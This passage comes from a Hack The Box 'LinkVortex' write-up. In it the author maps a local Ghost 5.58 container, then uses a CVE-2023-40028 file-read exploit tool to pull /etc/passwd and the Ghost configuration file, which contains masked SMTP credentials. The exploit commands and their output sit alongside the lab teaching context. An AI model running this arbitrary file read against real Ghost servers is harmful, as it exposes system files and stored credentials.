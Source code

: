 
Access to `/etc/passwd` proves that exploit works. As we can not `ls` directories we need to know beforehand what files are looking for. There was one hint in previously obtained `git diff`, but let's run docker image of Ghost in 5.58 version and browse it files.

```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ docker run -d --name ghost-5.58 -e NODE_ENV=development ghost:5.58 && \
docker exec -it ghost-5.58 /bin/bash
5198ba79131fcf1cf1a71bcc64b747ff92ba0e693b4a0fd41cc498e04547a268
root@5198ba79131f:/var/lib/ghost# ls -l
total 20
lrwxrwxrwx  1 node node   22 Aug 10  2023 config.development.json -> config.production.json
-rw-r--r--  1 node node  295 Aug 10  2023 config.production.json
drwxrwxrwt 11 node node 4096 Apr 11 19:35 content
drwxr-xr-x 11 node node 4096 Aug 10  2023 content.orig
lrwxrwxrwx  1 node node   30 Aug 10  2023 current -> /var/lib/ghost/versions/5.58.0
drwxr-xr-x  1 node node 4096 Aug 10  2023 versions
root@5198ba79131f:/var/lib/ghost# 
```

First listing show that Ghost configuration file could be found in `/var/lib/ghost/config.production.json`. Let's see if we can access it.

```
┌──(magicrc㉿perun)-[~/attack/HTB LinkVortex]
└─$ ./CVE-2023-40028/CVE-2023-40028 -u admin@linkvortex.htb -p ****************** -h http://linkvortex.htb
WELCOME TO THE CVE-2023-40028 SHELL
Enter the file path to read (or type 'exit' to quit): /var/lib/ghost/config.production.json
File content:
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "*********************"
        }
      }
    }
```